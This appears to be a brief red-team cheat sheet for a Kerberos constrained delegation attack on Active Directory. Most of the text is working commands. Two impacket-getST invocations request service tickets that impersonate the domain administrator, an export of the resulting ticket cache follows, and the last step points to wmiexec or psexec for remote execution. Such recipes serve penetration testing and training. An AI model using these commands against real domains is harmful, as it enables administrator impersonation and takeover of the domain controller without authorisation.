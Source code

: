 ## Use this impacket module to perform a Constrained Delegation attack

#### 1) 

    impacket-getST -spn HTTP/DC.DOMAIN.COM -impersonate administrator -dc-ip DC_IP -k -no-pass DOMAIN.COM/USERNAME

### OR

    impacket-getST -spn 'cifs/dc01.DOMAIN.COM' -impersonate Administrator -dc-ip DC_IP -k 'DOMAIN.COM/USERNAME:PASSWORD'

#### 2) 

    export KRB5CCNAME=administrator.ccache

#### 3) Use wmiexec or psexec
